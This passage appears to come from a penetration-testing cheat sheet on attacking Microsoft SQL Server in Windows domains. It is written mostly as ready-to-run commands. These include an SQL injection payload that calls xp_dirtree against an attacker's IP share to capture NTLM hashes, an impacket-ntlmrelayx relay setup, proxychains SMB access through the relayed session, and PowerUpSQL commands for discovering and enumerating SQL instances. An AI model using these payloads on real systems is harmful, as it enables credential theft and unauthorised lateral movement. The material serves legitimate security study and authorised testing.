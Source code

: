 You can also use the following to capture ntlm hash via sql injection :

```sql
abcd'; use master; exec xp_dirtree '\\10.10.14.6\share';-- -
```

## # `Ntlm Relay`

If the captured hash is not crackable you can go for Ntlm Relay Attack that is forwarding the hash to authenticate.

```bash
impacket-ntlmrelayx -tf targets.txt -socks -smb2support
```

targets.txt contains the Ip address you want access to.

Capture the hash as shown above already :

```bash
exec xp_dirtree '\\10.8.0.36\share'
```

Impacket should have captured the hash and spawned a sock server and everything that you send through the sock server will be forwarded in the context of the user(MSSql).

You can now use proxychains -

```bash
proxychains smbclient -L \\\\10.10.150.53 -U domainname/mssqlusername 
```

## # `MSSQL Powershell` -

[PowerUpSQL](https://github.com/NetSPI/PowerUpSQL) 

• Discovery (SPN Scanning) :

```powershell
Get-SQLInstanceDomain
```

• Check Accessibility :

```powershell
Get-SQLConnectionTestThreaded
```

```powershell
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded - Verbose
```

• Gather Information :

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

## # `Trust Abuse - MSSQL Servers - Database Links` -
